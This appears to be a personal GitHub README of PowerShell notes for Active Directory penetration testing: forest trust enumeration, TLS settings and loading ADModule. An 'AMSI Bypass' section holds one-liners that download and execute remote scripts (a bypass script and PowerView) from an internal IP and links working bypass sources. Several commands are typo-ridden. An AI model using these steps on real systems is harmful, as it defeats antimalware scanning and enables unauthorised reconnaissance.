 # Powershell-Stuff

&nbsp; Powershell stuff  

&nbsp;  

## Domain Forest Trust enumeration using .NET classes

1. Run as a domain member on the workstation  

2. To get information regarding forest for the current domain:  
`[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()`  
&nbsp;&nbsp;&nbsp;&nbsp;- *'GlobalCatalogs' can be appended to get global catalog*  
&nbsp;&nbsp;&nbsp;&nbsp;- *'Forest' can be replaced with 'Domain' to get domain info*  
&nbsp;&nbsp;&nbsp;&nbsp;- *The previous replacement and appending 'GetAllTrustRelationships()' gives trust relaitonship info for the domain*  

3. Declaring / setting the vbl $ForestRootDomain:  
`$ForestRootDomain = '<>'`  

4. To get information regarding forest for the current domain:  
`([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', $ForestRootDomain)))).GetAllTrustRelationships()`

&nbsp;  

## AMSI Bypass
6. Get-ExecutionPolicy -list (make sure only unrestricted for CurrentUser)
7. $ExecutionContext.SessionState --> Make sure LanguageMode is FullLanguage
8.   -set $ExecutionContext.SessionState.LanguageMode = "FullLanguage"

right way iex (New-Object New.WebClient).DownloadString("https://10.0.0.7/amsi/bypass.ps1")
iex (New-Object New.WebClient).DownloadString("https:10.0.0.7/powersploit/PowerSploit-master/Recon/PowerView.ps1")

1. Source 1: [S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)  

2. Source 2: [reigningshells/powershell-bypasses.ps1](https://gist.github.com/reigningshells/a255fcca07465befbcbf4be9cdf67560)  
&nbsp;&nbsp;&nbsp;&nbsp;- *This works*  

3. Source 3: [NullPtrStack/amsi-bypass](https://nullptrstack.github.io/amsi-bypass/)
4. source 3 bypass has no return outut
5. amsiinitfailed returns that it isn't the name of a cmdlet, function, etc
&nbsp;&nbsp;&nbsp;&nbsp;- *Test with the bypass in this one*

&nbsp;  

## TLS version

1. To enumerate 'systemdefault' to see what's supported:  
`[enum]::getvalues('net.securityprotocoltype')`  

2. To set to TLS1.2 (or greater):  
`[Net.ServicePointmanager]::SecurityProtocol = 'Tls12'`  
&nbsp;&nbsp;&nbsp;&nbsp;- *can replace 'Tls12' with a greater version*  

&nbsp;  

## ADModule

1. Clone or download ADModule: [samratashok/ADModule](https://github.com/samratashok/ADModule)  
&nbsp;&nbsp;&nbsp;&nbsp;- *can also just download the 2 needed files*  

2. `Import-Module \<absolute or relative path>\Microsoft.ActiveDirectory.Management.dll -Verbose`  

3. `Import-Module \<absolute or relative path>\ActiveDirectory\ActiveDirectory.psd1 -Verbose`  
&nbsp;&nbsp;&nbsp;&nbsp;- *If the execution policy fails, do `Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted` and then do step 2 onward*  
&nbsp;&nbsp;&nbsp;&nbsp;- *Can also do `Unblock-File <file_path>`*  

4. `Get-Command -Module ActiveDirectory` *won't work* and `Get-ADDomain` *will work*  
&nbsp;  
5. `iwr -Uri "https://github.com/samratashok/admodule/archive/master.zip" -Outfile ADModule.zip`  

6. `Expand-archive .\ADModule.zip`  

7. `cd .\ADModule-master\ActiveDirectory`

8. `import-Module ActiveDirectory.psd1`

9. `Get-Command -Module ActiveDirectoryn   get-`  

&nbsp;  

## 

1. 

&nbsp;  
